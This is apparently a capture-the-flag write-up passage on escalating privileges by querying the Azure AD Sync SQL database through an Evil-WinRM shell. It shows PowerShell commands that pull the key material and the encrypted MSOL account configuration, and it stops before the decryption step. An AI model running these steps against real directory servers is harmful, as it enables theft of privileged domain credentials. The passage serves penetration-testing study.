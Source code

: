 ## Privesc using the Azure AD Sync database

Ref: [https://blog.xpnsec.com/azuread-connect-for-redteam/](https://blog.xpnsec.com/azuread-connect-for-redteam/)

Ref2: [https://aireforge.com/Tools/DotNetSqlServerConnectionStringGenerator](https://aireforge.com/Tools/DotNetSqlServerConnectionStringGenerator)

`mhope` is part of the `Azure Admins` group:

```
*Evil-WinRM* PS C:\Users\mhope\Documents> net users mhope
[...]

Local Group Memberships      *Remote Management Use
Global Group memberships     *Azure Admins         *Domain Users
The command completed successfully.
```

This group normally has the AAD_xxxxxxxxxx service account created to manage the AD Sync service. Because our user is also a member of that group he also has access to the local SQL server database which contains the encrypted password for the MSOL account.

The ADsync database exist:

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> sqlcmd -S localhost -Q "select name from sys.databases"
name
---------------------------------------------------------------------------------------------------------
master
tempdb
model
msdb
ADSync

(5 rows affected)
```

The file line of the string from the blogpost had to be modified with the correct connection string: `Data Source=localhost;Database=ADSync;Integrated Security=sspi`

```
*Evil-WinRM* PS C:\Users\mhope\Documents> $client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=localhost;Database=ADSync;Integrated Security=sspi"
*Evil-WinRM* PS C:\Users\mhope\Documents> $client.Open()
*Evil-WinRM* PS C:\Users\mhope\Documents> $cmd = $client.CreateCommand()
*Evil-WinRM* PS C:\Users\mhope\Documents> $cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
*Evil-WinRM* PS C:\Users\mhope\Documents> $reader = $cmd.ExecuteReader()
*Evil-WinRM* PS C:\Users\mhope\Documents> $reader.Read() | Out-Null
*Evil-WinRM* PS C:\Users\mhope\Documents> $key_id = $reader.GetInt32(0)
*Evil-WinRM* PS C:\Users\mhope\Documents> $instance_id = $reader.GetGuid(1)
*Evil-WinRM* PS C:\Users\mhope\Documents> $entropy = $reader.GetGuid(2)
*Evil-WinRM* PS C:\Users\mhope\Documents> $reader.Close()
*Evil-WinRM* PS C:\Users\mhope\Documents> 
*Evil-WinRM* PS C:\Users\mhope\Documents> $cmd = $client.CreateCommand()
*Evil-WinRM* PS C:\Users\mhope\Documents> $cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
*Evil-WinRM* PS C:\Users\mhope\Documents> $reader = $cmd.ExecuteReader()
*Evil-WinRM* PS C:\Users\mhope\Documents> $reader.Read() | Out-Null
*Evil-WinRM* PS C:\Users\mhope\Documents> $config = $reader.GetString(0)
*Evil-WinRM* PS C:\Users\mhope\Documents> $crypted = $reader.GetString(1)
*Evil-WinRM* PS C:\Users\mhope\Documents> $reader.Close()
*Evil-WinRM* PS C:\Users\mhope\Documents> 
```